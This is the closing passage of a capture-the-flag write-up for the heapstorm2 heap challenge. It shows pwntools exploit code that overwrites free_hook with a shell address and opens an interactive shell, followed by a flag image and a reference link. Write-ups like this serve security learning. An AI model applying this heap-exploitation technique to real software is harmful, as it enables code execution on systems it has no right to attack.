 ```py
    payload = p64(0)*3 + p64(0x13377331)+p64(storage) + p64(0x1000) + p64(free_hook) + p64(8)
    Update(0,payload)
    Update(1,p64(shell_addr))
    #Alloc(0x40)
    p.recvuntil('Command: ')
    p.sendline('1')
    Delete(3)
    p.interactive()

exp()

```
![flag](./9.jpg)

## reference

[sakura](http://eternalsakura13.com/2018/04/03/heapstorm2/)

